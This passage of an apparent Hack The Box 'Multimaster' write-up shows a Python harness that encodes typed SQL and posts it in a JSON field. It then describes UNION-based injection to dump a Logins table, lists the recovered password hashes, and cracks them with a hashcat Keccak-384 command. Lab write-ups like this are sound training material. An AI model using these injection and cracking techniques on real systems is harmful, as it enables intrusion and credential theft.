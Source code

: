 ```python
	headers = {
		"Content-type": "application/json"
	}
	cmd = raw_input("> ")
	encoded_cmd = unicode_crap(cmd)
	payload = '{"name": "' + encoded_cmd + '"}'
	print payload
	r = requests.post(url, data=payload, headers=headers, proxies=proxies)
	print r.text
	print("------------------------------------------------------")
```

Here, I found how many columns were in the table and I was able to use a UNION injection to include arbitrary data.

![](/assets/images/htb-writeup-multimaster/sql3.png)

Found the current DB name: `Hub_DB`

![](/assets/images/htb-writeup-multimaster/sql4.png)

Enumerated the tables in the database: `Colleagues` and `Logins`

![](/assets/images/htb-writeup-multimaster/sql5.png)

In the `Logins` table, I enumerated the columns and found the `password` one:

![](/assets/images/htb-writeup-multimaster/sql6.png)

Then I had all the pieces I needed to dump the `Logins` table:

![](/assets/images/htb-writeup-multimaster/sql7.png)

There's a bunch of accounts in there and after cleaning up the duplicate hashes I have the following list:

```
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
```

At first that looked like some SHA-384 hashes but after trying a few different hash algorithms I was able to crack all of them except one using Keccak-384.

`hashcat -a 0 -m 17900 --force users_sqli_dump_hashes.txt /usr/share/wordlists/rockyou.txt`

![](/assets/images/htb-writeup-multimaster/sqlhash.png)

## Enumerating users on the box

To check for valid accounts on the system I used kerbrute with the `xato-net-10-million-usernames.txt` wordlist.
